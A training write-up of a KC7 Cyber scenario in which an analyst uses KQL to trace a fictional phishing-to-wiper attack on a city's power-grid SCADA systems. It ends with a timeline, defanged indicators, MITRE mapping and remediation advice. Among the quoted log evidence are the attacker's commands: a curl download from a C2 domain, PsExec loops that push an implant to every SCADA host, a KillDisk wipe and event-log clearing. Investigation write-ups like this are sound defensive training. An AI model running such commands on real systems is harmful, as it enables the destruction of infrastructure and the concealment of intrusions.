

# SOC Investigation - Critical Infrastructure Attack on a Power Grid (KC7 "Critical Compromise in Chicago - ICS")

## Description

Investigation of a cyberattack that caused a city-wide **power outage** by compromising the electricity provider's **SCADA systems**, completed on the [KC7 Cyber](https://kc7cyber.com) platform. Using **KQL** across process, file, email, authentication, web and passive DNS data, I worked backwards from the destructive commands on the SCADA network to the start of the operation:

**reconnaissance → phishing → account takeover → internal spearphishing of a SCADA operator → BlackEnergy implant → credential theft → OT discovery → PsExec spread → KillDisk wiper → blackout**

The tooling (**BlackEnergy + KillDisk**) and target match **Sandworm (APT44 / Seashell Blizzard)**, the Russian military group behind the 2015 Ukraine power grid attack.

> **Platform:** KC7 Cyber, module *Critical Compromise in Chicago - ICS* · **Status:** completed, 32/32 questions, 2,870 points
> **Tools:** Azure Data Explorer (Kusto) · KQL · MITRE ATT&CK for Enterprise and ICS

---

## Executive Summary (Incident Report)

| Field | Finding |
|---|---|
| **Incident** | Destructive attack on power-grid SCADA systems, causing a city-wide outage |
| **Attribution** | Consistent with **Sandworm / APT44 / Seashell Blizzard** (BlackEnergy, KillDisk, grid targeting) |
| **Initial access** | Phishing (*"Critical: …"* lures) to 12 employees; two accounts taken over (**elnunmaker**, **joeisenman**) from actor IPs on **27 Aug 2024** |
| **IT → OT bridge** | Internal spearphish from Joseph Eisenman's real mailbox to **SCADA Operator Jibby Saetang** (29 Aug), whose workstation **BDC0-DESKTOP** ran **BlackEnergy** |
| **Actions on the OT network** | Password-file harvesting → `ICSScanner.exe` sweep of `192.168.0.0/16` → **PsExec** as `administrator` to every SCADA host → malicious SCADA commands → **`KillDisk.exe --all --wipe`** |
| **Anti-forensics** | `wevtutil cl System`, clearing the System event log |
| **Dwell time** | About **14 days** (first account takeover 27 Aug → malicious SCADA commands 10 Sep) |
| **Impact** | Loss of control and availability of the grid; SCADA systems wiped; city-wide outage |
| **Root causes** | No MFA on remote logins; no IT/OT segmentation (an operator workstation could reach every SCADA host); one shared admin password stored in files; outbound internet from an OT-connected workstation |

**Priority actions:** isolate BDC0-DESKTOP and the compromised IT accounts; cut IT↔OT connectivity until it's rebuilt; rotate the SCADA administrator credentials; restore SCADA systems from offline, known-good backups; block all IOCs; report to the regulator and national CERT. Details are under [Response Recommendations](#response-recommendations).



---

## Investigation Walkthrough

All queries are in [`/queries`](queries), one file per phase.

### Phase 1: Start at the impact (SCADA activity)

The outage pointed at the SCADA systems, so I started with any command line that touched them:

```kql
ProcessEvents
| where process_commandline has "SCADA"
```

**5 commands**, all on **BDC0-DESKTOP** (user `jisaetang`, **Jibby Saetang, SCADA Operator**, `10.10.0.8`):

| Time (UTC) | Command (shortened) | Meaning |
|---|---|---|
| 2024-09-09 11:17:44 | `ICSScanner.exe --scan --network 192.168.0.0/16 --type SCADA --output C:\ProgramData\SCADA_IPs.txt` | **OT discovery**: list every SCADA device |
| 2024-09-10 03:43:57 | `curl -o C:\ProgramData\SCADA_Malicious_Commands.txt http://chicagogridupdates[.]com/…` | Download of the **attack commands** from the C2 domain |
| Loop 1 | `for … in (SCADA_IPs.txt) do psexec \\%i -u administrator -p %password% cmd /c "copy C:\malware\BlackEnergy.exe \\%i\SCADA\…"` | Stage the implant on every SCADA host |
| Loop 2 | `… psexec … cmd /c "\\%i\SCADA\BlackEnergy.exe && …\SCADA_Malicious_Commands.txt"` | Run the implant and the malicious SCADA commands |
| Loop 3 | `… psexec … cmd /c "\\%i\SCADA\KillDisk.exe --all --wipe"` | **Wipe** every SCADA host |

The password for each loop was read from `C:\ProgramData\Extracted_Password.txt`, and `ICSScanner.exe` was hosted on the same C2 domain (`chicagogridupdates[.]com/ICSScanner.exe`).

**Analyst reasoning:** this was no accident. It was a scripted, three-stage operation: **stage → execute → destroy**, using a legitimate admin tool (**PsExec**) and **one administrator password that worked on every SCADA host**. The question became *how did an attacker get onto an operator's workstation?*

→ [`01-scada-activity-and-impact.kql`](queries/01-scada-activity-and-impact.kql)

### Phase 2: Find patient zero by prevalence

```kql
ProcessEvents
| where process_commandline has "BlackEnergy"
| summarize first_run = min(timestamp), hosts = dcount(hostname)
```

**BlackEnergy ran on only 1 host,** BDC0-DESKTOP, first at **2024-08-29 08:28:45**, with the parent process **Explorer.exe**:

```text
BlackEnergy.exe --beacon-interval 10 --c2 chicagogridupdates[.]com --scan 192.168.1.0/24
```

| Time (UTC) | Evidence | Source |
|---|---|---|
| 08:28:01 | Download of `Urgent_Cyber_Threat_Alert.zip` from `chicagogridupdates[.]com` | `OutboundNetworkEvents` |
| next | `BlackEnergy.exe` created, SHA256 `1dc1dbfc1d636fed5cebe43787a7abf2df4fbb51e1beaec34ba72dd5152edc81` | `FileCreationEvents` |
| next | `Explorer.exe "C:\Users\jisaetang\Downloads\Urgent_Cyber_Threat_Alert.zip"`: the user opened the archive | `ProcessEvents` |
| 08:28:45 | BlackEnergy executes and starts **beaconing every 10 seconds** to its C2 | `ProcessEvents` |

**Analyst reasoning:** a file on a single host is a gift. **Low prevalence** points straight at patient zero. Explorer.exe as the parent means a **user action**, not an exploit, so the next question was *why did the operator open that archive?*

→ [`02-blackenergy-patient-zero.kql`](queries/02-blackenergy-patient-zero.kql)

### Phase 3: The phishing campaign

```kql
Email
| where subject contains "Critical:"
| summarize count() by sender
```

| Sender | Emails | Type |
|---|---|---|
| `thresher_libero@hotmail[.]com` | **5** (top sender) | External free-mail |
| `chopping_asbestosis@verizon[.]com` | 4 | External free-mail |
| `dissemblelebanon@aol[.]com` | 2 | External free-mail |
| `joseph_eisenman@chicagopowergrid.com` | 1 | **Internal, compromised** |
| `elizabeth_nunmaker@chicagopowergrid.com` | 1 | **Internal, compromised** |

**12 employees** received *"Critical: …"* lures. The decisive email was **internal**: on **2024-08-29 05:00:45**, Joseph Eisenman's real mailbox sent **"Critical: Grid Security Update Required"** to Jibby Saetang, linking to `Urgent_Cyber_Threat_Alert.zip`.

**Analyst reasoning:** the campaign ran in **two waves**. A broad wave from free-mail addresses harvested credentials. A **targeted internal spearphish** then came from a trusted colleague's account, at exactly the person with SCADA access. An urgent "grid security" message from a colleague is very hard for an operator to ignore.

→ [`03-phishing-campaign.kql`](queries/03-phishing-campaign.kql)

### Phase 4: Infrastructure and reconnaissance

| Pivot | Finding |
|---|---|
| `citygridsolutions[.]net` → passive DNS | `87.250.252[.]242` |
| That IP → other domains | `infrastructurewatch[.]org`, `chicagogridupdates[.]com` |
| All 3 domains → IPs | `87.250.252[.]242`, `104.244.42[.]129` |
| Those IPs in `InboundNetworkEvents` | Searches on the company website for **"SCADA Operator"**: **Jibby Saetang** and **Wade Wells** |
| Other recon | Browsing of the company's upcoming **Corporate Karaoke Night** |

**Analyst reasoning:** the actor **picked its target by role before any phishing**. Two SCADA operators were researched, and only one, Jibby, was then phished. Wade Wells was profiled but not targeted, so he should be warned and his account monitored. Browsing staff events is typical pretext research for later social engineering.

→ [`04-infrastructure-and-recon.kql`](queries/04-infrastructure-and-recon.kql)

### Phase 5: Account takeover, discovery and credential theft

```kql
AuthenticationEvents
| where src_ip in ("104.244.42.129", "87.250.252.242")
```

| Time (UTC) | Event |
|---|---|
| **2024-08-27 02:40:47** | **First successful login** from an actor IP: **HAQX-DESKTOP**, user **elnunmaker** (Elizabeth Nunmaker) |
| 2024-08-27 04:17:19 | Second account: **PADH-LAPTOP**, user **joeisenman** (Joseph Eisenman), later used to phish the operator |
| 2024-08-29 04:20:47 | `nltest /dclist:chicagogrid.local` on HAQX-DESKTOP, **locating the domain controllers** |
| **2024-09-10 02:18:06** | `C:\ProgramData\Password_Files.txt` created on **BDC0-DESKTOP**: harvested passwords, the source of the administrator password (`Extracted_Password.txt`) used with PsExec |
| **2024-09-10 05:32:57** | `wevtutil cl System` on **BDC0-DESKTOP**: **System event log cleared** after the attack to hide the tracks |

`87.250.252[.]242` was the actor IP that logged into the most accounts.

→ [`05-account-takeover-and-discovery.kql`](queries/05-account-takeover-and-discovery.kql)

---

## Timeline (2024, UTC)

| Time | Phase | Event |
|---|---|---|
| Before 27 Aug | Recon | Actor IPs research SCADA operators (Jibby Saetang, Wade Wells) and staff events on the company website |
| Before 27 Aug | Phishing | "Critical: …" lures from free-mail senders reach 12 employees |
| 27 Aug 02:40 | Initial access | First login from an actor IP to `elnunmaker` on HAQX-DESKTOP |
| 27 Aug 04:17 | Initial access | Second account `joeisenman` taken over (PADH-LAPTOP) |
| 29 Aug 04:20 | Discovery | `nltest /dclist:chicagogrid.local` on HAQX-DESKTOP |
| 29 Aug 05:00 | Internal phish | Joseph's mailbox → Jibby: "Critical: Grid Security Update Required" |
| 29 Aug 08:28 | Execution | Jibby downloads and opens the ZIP; BlackEnergy runs on BDC0-DESKTOP and beacons to C2 |
| 29 Aug to 9 Sep | Staging | ICSScanner staged from the C2 domain; BlackEnergy beaconing |
| 9 Sep 11:17 | OT discovery | ICSScanner sweeps `192.168.0.0/16` for SCADA devices |
| 10 Sep 02:18 | Credential access | `Password_Files.txt` created on BDC0-DESKTOP |
| 10 Sep 03:43 | Weaponisation | Malicious SCADA commands downloaded from C2 |
| Then | Impact | PsExec spreads BlackEnergy, runs the commands, then **KillDisk wipes the SCADA hosts** → **power outage** |
| 10 Sep 05:32 | Anti-forensics | `wevtutil cl System` on BDC0-DESKTOP |

## Indicators of Compromise

| Type | Indicator | Context |
|---|---|---|
| Domain | `chicagogridupdates[.]com` | C2, payload and tool hosting |
| Domain | `citygridsolutions[.]net`, `infrastructurewatch[.]org` | Actor infrastructure |
| IPv4 | `87.250.252[.]242`, `104.244.42[.]129` | Actor logins and reconnaissance |
| Email | `thresher_libero@hotmail[.]com`, `chopping_asbestosis@verizon[.]com`, `dissemblelebanon@aol[.]com` | Phishing senders |
| File | `Urgent_Cyber_Threat_Alert.zip` | Lure archive |
| SHA256 | `1dc1dbfc1d636fed5cebe43787a7abf2df4fbb51e1beaec34ba72dd5152edc81` | BlackEnergy.exe |
| File | `BlackEnergy.exe`, `KillDisk.exe`, `ICSScanner.exe` | Implant, wiper, OT scanner |
| File | `C:\ProgramData\SCADA_IPs.txt`, `SCADA_Malicious_Commands.txt`, `Password_Files.txt`, `Extracted_Password.txt` | Attacker working files |
| Accounts | `elnunmaker`, `joeisenman`, `jisaetang`, local `administrator` on SCADA hosts | Compromised; reset required |

*Indicators are defanged (`[.]`) and come from a fictional training scenario.*

## MITRE ATT&CK Mapping (Enterprise + ICS)

| Tactic | Technique | Evidence |
|---|---|---|
| Reconnaissance | T1594 Search Victim-Owned Websites | Searches for "SCADA Operator", staff events |
| Resource Development | T1583.001 Acquire Infrastructure: Domains | Grid-themed domains |
| Initial Access | T1566.002 Phishing: Spearphishing Link | "Critical: …" lures |
| Initial Access | T1078 Valid Accounts | Logins to elnunmaker, joeisenman from actor IPs |
| Lateral Movement | **T1534 Internal Spearphishing** | Joseph's mailbox → SCADA operator |
| Execution | T1204.002 User Execution: Malicious File | Operator opens `Urgent_Cyber_Threat_Alert.zip` |
| Command and Control | T1071.001 Web Protocols · T1105 Ingress Tool Transfer | BlackEnergy beacon; `curl` / tool downloads |
| Discovery | T1018 Remote System Discovery | `nltest /dclist` |
| Discovery | T1046 Network Service Discovery · **ICS T0846 Remote System Discovery** | `ICSScanner.exe --type SCADA` |
| Credential Access | T1552.001 Unsecured Credentials: Credentials in Files | `Password_Files.txt` → `Extracted_Password.txt` |
| Lateral Movement | T1021.002 SMB/Admin Shares · T1569.002 Service Execution | PsExec as `administrator` |
| Impact | T1561 Disk Wipe · **ICS T0809 Data Destruction** | `KillDisk.exe --all --wipe` |
| Impact (ICS) | **T0813 Denial of Control · T0826 Loss of Availability** | Grid shut down |
| Defense Evasion | T1070.001 Clear Windows Event Logs | `wevtutil cl System` |

## Response Recommendations

**Immediate (contain and recover)**
1. Disconnect IT from OT. Isolate BDC0-DESKTOP, HAQX-DESKTOP and PADH-LAPTOP.
2. Rotate the SCADA `administrator` credential on every host, and reset the compromised users' passwords and sessions.
3. Rebuild wiped SCADA hosts from **offline, known-good images and configurations**. Bring the grid back up in manual or local mode where possible.
4. Block all IOCs. Purge the "Critical: …" emails. Warn **Wade Wells**, the second operator the attacker researched.
5. Report to the regulator and national CERT (in Germany: BSI, under KRITIS and NIS2 obligations) and share IOCs with the sector's information-sharing group.

**Fix the root causes**
6. **Segment IT and OT** following IEC 62443 zones and conduits. Operators reach SCADA only through hardened jump hosts, with **no internet or email** on OT-connected machines.
7. **Unique local admin passwords** (LAPS or a PAM vault) and **no passwords in files**. One shared admin password turned a single workstation into a grid-wide compromise.
8. **MFA** for all remote and email logins. The actor simply logged in from external IPs.
9. **Application allow-listing** on SCADA hosts (blocks PsExec, scanners and wipers), plus OT network monitoring for scans and new remote-execution sessions.
10. Forward logs to a central SIEM in real time, so that `wevtutil cl` can't erase evidence. Treat log clearing as a critical alert.
11. Run phishing awareness for operators that covers *internal* senders: verify urgent "security" requests out of band.
12. Deploy the detections in [`06-detection-rules.kql`](queries/06-detection-rules.kql).

## Lessons Learned

- **In critical infrastructure, IT compromise is the first step towards physical impact.** The attackers never touched SCADA directly from outside. They walked in through email, identities and one operator's workstation.
- **Prevalence hunting finds patient zero fast.** BlackEnergy on exactly one host collapsed the search space immediately.
- **Trusted senders are the strongest lure.** The phish that worked came from a real colleague's mailbox, so detection has to cover *internal* spearphishing.
- **Shared credentials multiply the blast radius.** One administrator password, stored in a file, unlocked every SCADA host.
- **Destruction is often the last step, not the first.** About 14 days passed between account takeover and wipe, which was time to detect the intrusion.
- **History repeats.** BlackEnergy and KillDisk against a grid replays the 2015 Ukraine attack. Threat intelligence on past campaigns tells defenders exactly what to look for.

## Skills Demonstrated

- Critical-infrastructure and ICS/SCADA incident investigation
- KQL hunting across process, file, email, authentication, web and passive DNS data
- Prevalence-based threat hunting and patient-zero analysis
- Phishing analysis, including internal spearphishing from compromised accounts
- Infrastructure pivoting (domain ↔ IP) and reconnaissance discovery
- Lateral movement (PsExec), credential theft, wiper and anti-forensics analysis
- Threat-actor attribution from tooling and targeting (Sandworm / APT44)
- MITRE ATT&CK for Enterprise **and ICS** mapping, detection engineering, OT-aware incident response recommendations

---

*Scenario, data and story by [KC7 Cyber](https://kc7cyber.com). Investigation notes, queries and write-up by Mazen Yousef.*

*Author: Mazen Yousef | [LinkedIn](https://linkedin.com/in/mazenyousef) | [TryHackMe](https://tryhackme.com/p/mazen.yousef)*
